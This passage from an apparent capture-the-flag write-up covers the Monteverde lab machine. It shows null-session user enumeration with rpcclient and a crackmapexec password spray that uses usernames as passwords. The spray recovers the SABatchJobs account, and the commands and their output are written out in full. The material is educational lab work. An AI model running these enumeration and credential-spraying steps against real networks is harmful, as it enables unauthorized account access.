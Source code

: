 we can see `ldap` is giving up its domain name `MEGABANK.LOCAL0`.

### SMB Enumeration
Let's see if we can list the user's of `RPC Client`.
```
rpcclient -U "" 10.10.10.172

rpcclient $> enumdomusers
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```
we found the potential users on the machine. With the help of this we make `users.txt` which looks like this:
```
Guest
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
```
### Initial Foothold
Now, we've to find the credentials for the users or brute force their login on `smb`. We'll use `crackmapexec` to burte force user password. we'll supply same user.txt list to password field.

```
 crackmapexec smb 10.10.10.172 -u users.txt -p users.txt

SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK) (signing:True) (SMBv1:False)
<SNIP>
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK\mhope:svc-bexec STATUS_LOGON_FAILURE
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK\mhope:svc-netapp STATUS_LOGON_FAILURE
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK\mhope:dgalanos STATUS_LOGON_FAILURE
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK\mhope:roleary STATUS_LOGON_FAILURE
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK\mhope:smorgan STATUS_LOGON_FAILURE
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK\SABatchJobs:Guest STATUS_LOGON_FAILURE
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK\SABatchJobs:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK\SABatchJobs:mhope STATUS_LOGON_FAILURE
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK\SABatchJobs:SABatchJobs
```
We obtained credentials of `MEGABANK\SABatchJobs:SABatchJobs`. It's time to look for possible shares with help of this credentials . we list shares using `smbmap` with this credentials.
